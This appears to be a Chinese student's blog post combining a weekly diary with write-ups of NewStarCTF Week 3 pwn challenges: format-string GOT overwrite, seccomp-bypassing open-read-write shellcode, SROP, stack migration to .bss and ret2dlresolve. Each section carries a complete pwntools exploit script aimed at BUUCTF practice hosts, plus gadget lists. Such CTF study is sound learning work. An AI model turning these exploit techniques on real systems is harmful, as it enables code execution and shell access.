




Note(Pwn) - 0x01 && Weekly - 0x08
0x00 Weekly - 0x01
Day - 0x00 白天没课，做了NewStarWeek3Pwn的前三题
Day - 0x01 上课，只有一节课没有课。。。半夜浅浅研究了一下剩下的两个题目，并且向王神请教了栈迁移那题
Day - 0x02 没有早八，然后就接着研究栈迁移，期间发现自己之前学习栈迁移的时候挖的坑，并且填平了。下午只有一节课，做出来了栈迁移，开始学习ret2dlresolve。晚上成功解决最后一道题目！！！！！！！
Day - 0x03 全天满课+摸锦鲤
Day - 0x04 深入♂学习
Day - 0x05 打比赛（分享会）
Day - 0x06 打比赛（分享会）
0x01 Note(Pwn) - 0x08
（其实是刷题写笔记，基本上是NewStarCTF的Week3的Pwn题目）
扔进IDA，发现格式化字符串漏洞
"对啊，如果puts函数是system就好了"
"想得美，自己想办法修改吧"
想法就是先搞出来格式化字符串参数表的offset，一笔带过，offset = 8
然后就是把puts函数的GOT表地址扔进栈里面，用%n去修改。。。但是这里爆破很难受，我写exp也巨难受（虽然只需要修改低位的三个字节）。不想枚举6种情况
于是经历了长达1145141919810*x毫秒的网络冲浪之后，我学到了一个新东西------来自pwntools的fmtstr_payload()
于是这里的payload就非常精简了（还是得多亏前辈的封装）
Tips:
1. 这里的技巧是泄露函数真实地址的时候，其实可以从栈上面找__libc_start_main函数的地址（或许__libc_start_call_main也可以）
2. 这里为了方便调试，换了glibc，反正出题人也给了libc，顺便练习练习（但是这题获取函数真实地址的时候，不同的glibc运行的情况下，参数表开始到函数的offset可能会不同，从而导致本地能打通，远程就寄），从此glibc不再玄学（但愿吧）
EXP:
255 - Week3Pwn情况总览：
0 - puts or system?
首先checksec，平平无奇(除了Canary)扔进IDA，发现格式化字符串漏洞
"对啊，如果puts函数是system就好了"
"想得美，自己想办法修改吧"
想法就是先搞出来格式化字符串参数表的offset，一笔带过，offset = 8
然后就是把puts函数的GOT表地址扔进栈里面，用%n去修改。。。但是这里爆破很难受，我写exp也巨难受（虽然只需要修改低位的三个字节）。不想枚举6种情况
于是经历了长达1145141919810*x毫秒的网络冲浪之后，我学到了一个新东西------来自pwntools的fmtstr_payload()
于是这里的payload就非常精简了（还是得多亏前辈的封装）
Tips:
1. 这里的技巧是泄露函数真实地址的时候，其实可以从栈上面找__libc_start_main函数的地址（或许__libc_start_call_main也可以）
2. 这里为了方便调试，换了glibc，反正出题人也给了libc，顺便练习练习（但是这题获取函数真实地址的时候，不同的glibc运行的情况下，参数表开始到函数的offset可能会不同，从而导致本地能打通，远程就寄），从此glibc不再玄学（但愿吧）
EXP:
# GNU C Library (Ubuntu GLIBC 2.35-0ubuntu3.1) stable release version 2.35.
from pwn import*
context.log_level='debug'
context(arch='amd64',os='linux')
context.terminal=['tmux','splitw','-h']
# p=process('./putsorsys')
p=remote('node4.buuoj.cn',28420)
# p=process(['./ld-2.31.so', './stri'], env={"LD_PRELOAD":'./libc.so.6'})
# gdb.attach(p)
elf=ELF('./putsorsys')
libc=ELF('./libc.so.6')
func_addr=elf.got['puts']
p.sendlineafter('gift?(0/1)',"1")
payload=b'AAAA%35$p'
p.sendlineafter("it",payload)
# offset=8 35=libcstartmain
p.recvuntil('0x')
addr=p.recv(12)
addr=int(addr,16)
addr-=128
base=addr-libc.symbols['__libc_start_main']
system_addr=base+libc.symbols['system']
puts_addr=base+libc.symbols['puts']
print("system:addr::")
print(hex(system_addr))
print("print——got:")
print(hex(func_addr))
p.sendlineafter('gift?(0/1)',"1")
payload1=fmtstr_payload(8,{func_addr:system_addr})
p.sendlineafter("it",payload1)
p.interactive()1 - orw&rop
平平无奇的checksec，依旧是除了Canary
发现栈溢出、格式化字符串漏洞
发现沙箱机制（Sandbox）
之前王神发了两个blog，但是我的时间都被那两个比赛占用了，所以当时就仅仅瞅了一眼，直到现在才开始学
入门题目
系统总结
但是我是学的这个
那就检查一下保护是什么，输入命令：seccomp-tools dump ./ezorw
可以看到execve和system被ban了（因为system也是调用execve）
所以就像教程说的一样，直接写shellcode，然后用文件输入输出来输出flag，从而避免调用execve
(太感动了，又是前辈封装的shellcraft！！！！！感谢前辈)
EXP：
# GNU C Library (Ubuntu GLIBC 2.35-0ubuntu3.1) stable release version 2.35
from pwn import *
context.log_level='debug'
context(arch='amd64',os='linux')
context.terminal=['tmux','splitw','-h']
# context(os="linux", arch="amd64")
# p=process(['./ld-linux-x86-64.so.2', './ezorw'], env={"LD_PRELOAD":'./libc.so.6'})
p=remote('node4.buuoj.cn',27833)
# p = process("./ezorw")
# gdb.attach(p)
# p =remote("node3.buuoj.cn", 28320)
e=ELF('./ezorw')
libc=ELF('./libc.so.6')
ad = 0x66660000+0x100
code = shellcraft.open("./flag")
code += shellcraft.read(3, ad, 0x50)
code += shellcraft.write(1, ad, 0x50)
code = asm(code)
payload1=b'AAAAAAAA%11$p,%33$p'
# offset=6
p.sendlineafter('sandbox',payload1)
p.recvuntil('0x')
canary=p.recv(16)
canary=int(canary,16)
print(hex(canary))
p.recvuntil('0x')
addr=p.recv(12)
addr=int(addr,16)
print(hex(addr))
addr-=128
base=addr-libc.symbols['__libc_start_main']
pop_rdi=base+0x2a3e5
pop_rsi=base+0x2be51
pop_rdx_r12=base+0x11f497
buf=0x66660000
read_addr=e.plt['read']
payload2=b'a'*(0x30-8)+p64(canary)+b'a'*0x08+p64(pop_rdi)+p64(0)+p64(pop_rsi)+p64(buf)+p64(pop_rdx_r12)+p64(0x100)+p64(1)+p64(read_addr)+p64(buf)
p.sendlineafter('now',payload2)
pause()
p.send(code)
# p.send(code)
p.interactive()
# 0x000000000002a3e5 : pop rdi ; ret
# 0x000000000002be51 : pop rsi ; ret
# 0x000000000011f497 : pop rdx ; pop r12 ; ret2 - srop
哇，第一次见到Full RELRO的题目呀，扔进IDA吧！
你这个main函数是真的高冷
这里是poprbp，而且eax设为了0x0f，是sigreturn的系统调用号
还有一个奇怪的syscall。。。第一次见这个装在glibc的syscall函数里面的syscall
然后就按照正常的srop进行构造payload。但是要注意，这个来自glibc的syscall函数很坑人，它把寄存器改了一遍。。。（见下图）
所以对应的寄存器也要改。。。
这里使用了来自pwntools的SigreturnFrame，通过调用sigreturn来改变寄存器（本身sigreturn就会改变所有的寄存器，但是有时候并不是我们想要的，反正这时候我们需要它）
具体教程见这里
具体工具
EXP：
from pwn import *
context.log_level='debug'
context(arch='amd64',os='linux')
context.terminal=['tmux','splitw','-h']
p = process("./srop")
# p=remote('node4.buuoj.cn',27266)
elf0=ELF('./srop')
gdb.attach(p)
# 远程环境可以在BUUCTF上找到
#p = remote("node3.buuoj.cn", 25862)
pop_rdi=0x401203
syscall = 0x401040
sigreturn = p64(pop_rdi)+p64(0xf)+p64(0x401136)+p64(syscall)
sh = 0x0404000 # bin字符串地址
# 实现execve的系统调用
# 需要存储在伪造的栈地址位置
context.arch = "amd64"
frame = SigreturnFrame()
frame.rdi = constants.SYS_execve
frame.rsi = sh
frame.rdx = 0
frame.rcx = 0
frame.rbp = 0x403f00
frame.rsp = 0x404000
frame.rip = syscall
stack_frame = b"/bin/sh\x00"+sigreturn+bytes(frame)
# 实现read的系统调用
# 读取包括bin字符串和伪造的栈数据
frame = SigreturnFrame()
frame.rdi = constants.SYS_read
frame.rsi = 0
frame.rdx = sh
frame.rbp = 0x403f00
frame.rsp = 0x404000
frame.rcx = len(stack_frame)
frame.rip = syscall
frame.rsp = sh+8 # 设置栈顶指针位置
pad = cyclic(0x38)
pad += sigreturn + bytes(frame)
# 先发送实现read系统调用的pad
p.send(pad)
# read读取stack_frame
# 然后ret到伪造的栈上执行execve系统调用
pause()
p.send(stack_frame)
p.interactive()
# 0x00000000004011fc : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
# 0x00000000004011fe : pop r13 ; pop r14 ; pop r15 ; ret
# 0x0000000000401200 : pop r14 ; pop r15 ; ret
# 0x0000000000401202 : pop r15 ; ret
# 0x00000000004011fb : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
# 0x00000000004011ff : pop rbp ; pop r14 ; pop r15 ; ret
# 0x000000000040111d : pop rbp ; ret
# 0x0000000000401203 : pop rdi ; ret
# 0x0000000000401201 : pop rsi ; pop r15 ; ret
# 0x00000000004011fd : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
# 0x000000000040101a : ret
# 0x000000000040117c : ret 0xbe
# LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
# Start End Perm Size Offset File
# 0x400000 0x401000 r--p 1000 0 /home/akyoi/cac/NewStarCTF/srop/srop
# 0x401000 0x402000 r-xp 1000 1000 /home/akyoi/cac/NewStarCTF/srop/srop
# 0x402000 0x403000 r--p 1000 2000 /home/akyoi/cac/NewStarCTF/srop/srop
# 0x403000 0x404000 r--p 1000 2000 /home/akyoi/cac/NewStarCTF/srop/srop
# 0x404000 0x405000 rw-p 1000 3000 /home/akyoi/cac/NewStarCTF/srop/srop
# 0x7ffff7c00000 0x7ffff7c28000 r--p 28000 0 /usr/lib/x86_64-linux-gnu/libc.so.6
# 0x7ffff7c28000 0x7ffff7dbd000 r-xp 195000 28000 /usr/lib/x86_64-linux-gnu/libc.so.6
# 0x7ffff7dbd000 0x7ffff7e15000 r--p 58000 1bd000 /usr/lib/x86_64-linux-gnu/libc.so.6
# 0x7ffff7e15000 0x7ffff7e19000 r--p 4000 214000 /usr/lib/x86_64-linux-gnu/libc.so.6
# 0x7ffff7e19000 0x7ffff7e1b000 rw-p 2000 218000 /usr/lib/x86_64-linux-gnu/libc.so.6
# 0x7ffff7e1b000 0x7ffff7e28000 rw-p d000 0 [anon_7ffff7e1b]
# 0x7ffff7fa8000 0x7ffff7fab000 rw-p 3000 0 [anon_7ffff7fa8]
# 0x7ffff7fbb000 0x7ffff7fbd000 rw-p 2000 0 [anon_7ffff7fbb]
# 0x7ffff7fbd000 0x7ffff7fc1000 r--p 4000 0 [vvar]
# 0x7ffff7fc1000 0x7ffff7fc3000 r-xp 2000 0 [vdso]
# 0x7ffff7fc3000 0x7ffff7fc5000 r--p 2000 0 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
# 0x7ffff7fc5000 0x7ffff7fef000 r-xp 2a000 2000 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
# 0x7ffff7fef000 0x7ffff7ffa000 r--p b000 2c000 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
# 0x7ffff7ffb000 0x7ffff7ffd000 r--p 2000 37000 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
# 0x7ffff7ffd000 0x7ffff7fff000 rw-p 2000 39000 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
# 0x7ffffffde000 0x7ffffffff000 rw-p 21000 0 [stack]
# 0xffffffffff600000 0xffffffffff601000 --xp 1000 0 [vsyscall]
3 - stack migration revenge
checksec之后，还可以，也是Full RELRO扔进IDA，发现栈溢出的长度只能覆盖到ret。于是考虑使用栈迁移。
但是发现，如果要迁移到栈上面，那么没有rbp的地址。
王神涉及了一种新知识：低位覆盖，然后利用多层嵌套函数的leave;ret进行栈迁移。但是这里明显vuln里面没有leaveret，而且函数只有两层，这就导致这种方法没法解题。
之后王神又给出了新知识：延迟转移。事实证明是正确解法。我们细嗦... ...
这里栈的地址是随机的，所以我们在这种情况下，应该想办法把栈迁移到已知的、固定的地址里面（比如.bss），但是bss里面啥rop都没有，迁移过去也是啥用没有。。。
这时候就应该考虑使用read函数之类的进行读取。这里vuln函数有现成的read函数。那么我们要怎么做才能让read函数写入到.bss里面呢？？？？？？
考虑到局部变量的定位是利用 rbp + Offset 实现的。因此我们只要更改rbp为 bss_address + 0x50 就能读取内容并且写入到bss那里
（注意下面的图中标记了read函数进行变量定位的关键代码）
之后就是在rbp之后添加上vuln地址进行调用read函数。但是由于vuln函数开头的 mov rbp,rsp 的指令，会把我们辛辛苦苦写入的rbp给改成rsp。所以我们的ret地址肯定要写在这条指令之后。
之后就是进行正常的栈迁移，ret2libc了。按理来说这样就应该能打通了。但是实际运行之后才发现，构造的ROP链中调用的用来泄露函数真实地址的puts函数没有输出(或者是像下图那样卡在puts里面了)，之后的也是，但是之前的puts是完全正常的。那么是为什么呢？
还是正常进行gdb调试。（既然问题是在写入内容到.bss之后产生的，那么就着重看看.bss吧）

这里可以看到bss开头并不是我们以为的可以随便乱写的地址。。。有些东西被我们写入的内容淦废了。。。（看名称也知道是标准输入输出stdin,stdout的东西，破坏了这东西puts挂掉是很正常的）
接下来我们看看他们原本的样子
那么解决方法也很简单，只需要把exp里面我们想要栈迁移的地址抬高一点，这里我抬高到了0x404200（原本是0x404020）
好了，这下应该就100%能够打通了吧~~~
“年轻人，|只因你想的太美|，尤其是你熬夜打PWN题的时候(￣_,￣ )”
我们运行exp之后发现一切正常，但是自己输入的ROP-Chain被之后的puts函数搞得西八烂。请看下图见证这场“ROP大屠杀”
这是read payload之前的内容（只看前几行就行，这里截多了）

这是刚刚运行完read之后的情况，可以看到我们的ROPchain已经正常读入了
这里就是执行完puts之后的ROPchain，已经不成样子了。。。

（好奇怪的问题，都是第一次见。。真是个大冤种。做个题都那么多bug）
蒟蒻太弱了，根本想不出来原因。于是再次求助大佬了。。。。。。
都看得懂，我就不复述了。。。
于是就把除了第一次调用的vuln之外的vuln地址都改为vuln开始，然后修改了一下每次栈迁移之后的rbp地址就OK了。
最终EXP：
from pwn import*
context.log_level='debug'
context(arch='amd64',os='linux')
context.terminal=['tmux','splitw','-h']
# p=process('./migr')
p=remote('node4.buuoj.cn',26217)
# p=process(['./ld-2.31.so', './migr'], env={"LD_PRELOAD":'./libc.so.6'})
# gdb.attach(p)
elf=ELF('./migr')
libc=ELF('./libc.so.6')
puts_addr=elf.plt['puts']
func_addr=elf.got['puts']
read_addr=elf.plt['read']
pop_rdi=0x4012b3
bss=0x404200
leaveret=0x401227
vuln=0x4011F3
vuln1=0x4011DB
payload=b'a'
payload=payload.ljust(0x50,b'\x00')
payload+=p64(bss)+p64(vuln)
p.sendafter("me:",payload)
# pause()
payload=p64(bss+0x100)+p64(pop_rdi)+p64(func_addr)+p64(puts_addr)+p64(vuln1) #0x404320
payload=payload.ljust(0x50,b'\x00')
payload+=p64(bss-0x50)+p64(leaveret)
p.sendafter("me:",payload)
p.recvuntil('funny\n')
addr=u64(p.recv(6).ljust(8,b'\x00'))
print(hex(addr))
base=addr-libc.symbols['puts']
system_addr=base+libc.symbols['system']
execve_addr=base+libc.symbols['execve']
sh=base+0x1b45bd
pop_rsi=base+0x2601f
pop_rdx=base+0x142c92
buf=0x404180
ret=0x40101a
# pause()
# shellcode=asm(shellcraft.sh())
payload1=p64(buf+0x100)+p64(pop_rdi)+p64(sh)+p64(pop_rsi)+p64(0)+p64(pop_rdx)+p64(0)+p64(ret)+p64(execve_addr)+p64(vuln1) #0x4042f0 0x4041c8 318
# payload1=p64(0x404248)+shellcode #0x4042f0 0x4041c8 318
payload1=payload1.ljust(0x50,b'\x00')
payload1+=p64(buf)+p64(leaveret)
p.sendafter("me:",payload1)
p.interactive()
# 0x0000000000401227 : leave ; ret
# 0x00000000004010ed : loopne 0x401155 ; nop ; ret
# 0x0000000000401156 : mov byte ptr [rip + 0x2eeb], 1 ; pop rbp ; ret
# 0x0000000000401245 : mov eax, 0 ; pop rbp ; ret
# 0x00000000004010e7 : mov edi, 0x404010 ; jmp rax
# 0x00000000004010bf : nop ; endbr64 ; ret
# 0x0000000000401226 : nop ; leave ; ret
# 0x00000000004011d8 : nop ; pop rbp ; ret
# 0x00000000004010ef : nop ; ret
# 0x000000000040116c : nop dword ptr [rax] ; endbr64 ; jmp 0x401100
# 0x00000000004010e6 : or dword ptr [rdi + 0x404010], edi ; jmp rax
# 0x00000000004012ac : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
# 0x00000000004012ae : pop r13 ; pop r14 ; pop r15 ; ret
# 0x00000000004012b0 : pop r14 ; pop r15 ; ret
# 0x00000000004012b2 : pop r15 ; ret
# 0x00000000004012ab : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
# 0x00000000004012af : pop rbp ; pop r14 ; pop r15 ; ret
# 0x000000000040115d : pop rbp ; ret
# 0x00000000004012b3 : pop rdi ; ret
# 0x00000000004012b1 : pop rsi ; pop r15 ; ret
# 0x00000000004012ad : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
# 0x000000000040101a : ret4 - dl resolve
checksec之后，还可以扔进IDA，没问题，就是给的函数太少了。。。
看题目名称也知道是ret2dlresolve，直接学呗。然后大冤种就开始了为期一天的网上冲浪。。。然后学了个大概，细节实在被绕晕了
于是就顺道去CTF_wiki上面看了一下，发现ret2dlresolve的payload可以生成。于是直接“学习”
其实没有啥大问题，就是system缺少一个栈对齐，用execve的话少个rdx没法控制。
仔细研究了payload之后可以直接添加栈对齐
其实在底下被注释掉的手写payload过程中，我按照教程中的方法构建的payload应该是没问题的，但是会卡在__dl_runtime_resolve函数里面。这就非常离谱
EXP：
from pwn import *
context.log_level='debug'
context(arch='amd64',os='linux')
context.terminal=['tmux','splitw','-h']
context.binary = elf = ELF("./dlre")
rop = ROP(context.binary)
dlresolve = Ret2dlresolvePayload(elf,symbol="system",args=["/bin/sh"])
# pwntools will help us choose a proper addr
# https://github.com/Gallopsled/pwntools/blob/5db149adc2/pwnlib/rop/ret2dlresolve.py#L237
rop.read(0,dlresolve.data_addr)
rop.ret2dlresolve(dlresolve)
raw_rop = rop.chain()
# io = process("./dlre")
io=remote('node4.buuoj.cn',26549)
# gdb.attach(io)
# io.recvuntil("Welcome to XDCTF2015~!\n")
ret=0x40101a
raw_rop=p64(ret)+raw_rop
print(raw_rop)
payload = flat({0x78:raw_rop,256:dlresolve.payload})
io.sendline(payload)
io.interactive()
# from pwn import*
# context.terminal=['tmux','splitw','-h']
# context.arch='amd64'
# context.log_level='debug'
# p=process('./dlre')
# gdb.attach(p)
# elf=ELF('./dlre')
# read_addr=elf.plt['read']
# func_addr=elf.got['read']
# bss=0x404040
# leaveret=0x4011c6
# pop_rdi=0x40115e
# pop_rsi=0x40116b
# # reloc_index=0x1
# plt_0=0x401020
# rel_plt=0x400518
# r_info=0x000200000007
# fake_reloc=p64(func_addr)+p64(r_info)
# reloc_index=bss+0x30-rel_plt
# payload=b'a'*0x70+p64(bss)+p64(pop_rsi)+p64(bss)+p64(read_addr)+p64(leaveret)
# payload1=p64(0X400000)+p64(pop_rdi)+p64(bss)+p64(plt_0)+p64(reloc_index) # 0x404060
# payload1=payload1.ljust(0x30,b'a')
# payload1+=fake_reloc
# payload1=payload1.ljust(0x40,b'a')
# p.sendline(payload)
# pause()
# p.sendline(payload1)
# p.interactive()
# # 400408 00000000 00000000 1d000000 12000000 ................
# # 0x000000000040122c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
# # 0x000000000040122e : pop r13 ; pop r14 ; pop r15 ; ret
# # 0x0000000000401230 : pop r14 ; pop r15 ; ret
# # 0x0000000000401232 : pop r15 ; ret
# # 0x000000000040122b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
# # 0x000000000040122f : pop rbp ; pop r14 ; pop r15 ; ret
# # 0x000000000040113d : pop rbp ; ret
# # 0x000000000040115e : pop rdi ; ret
# # 0x0000000000401231 : pop rsi ; pop r15 ; ret
# # 0x000000000040116b : pop rsi ; ret
# # 0x000000000040122d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
# # 0x000000000040101a : ret